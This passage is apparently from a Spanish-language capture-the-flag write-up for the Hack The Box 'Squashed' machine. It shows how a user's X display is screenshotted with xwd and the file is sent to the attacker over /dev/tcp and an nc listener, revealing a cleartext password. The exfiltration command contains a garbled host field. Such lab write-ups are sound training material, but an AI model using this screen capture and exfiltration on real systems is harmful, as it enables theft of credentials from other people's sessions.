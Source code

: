 ```null
xdpyinfo -display :0
```

Por tanto, se puede tomar una captura de pantalla

En el directorio de Ross se podía ver una base de datos de Keepass, protegida por contraseña

Al ser una versión antigua no se puede utilizar fuerza bruta

```null
keepass2john Passwords.kdbx
! Passwords.kdbx : File version '40000' is currently not supported!
```

Para capturar la pantalla, se puede emplear lo siguiente:

```null
xwd -root -screen -silent -display :0 > screenshot.xwd
```

Descargando la imagen xwd

```null
alex@squashed:/home/alex$ cat < screenshot.xwd > /dev/tcp/screenshot.xwd/443 # Máquina víctima
nc -nlvp 443 > screenshot.xwd # Equipo local
```

Se puede convertir a una imagen png

```null
convert screenshot.xwd screenshot.png
```

Visualizando la imagen, se puede ver una contraseña en texto claro:

<img src="/writeups/assets/img/Squashed-htb/2.png" alt="">
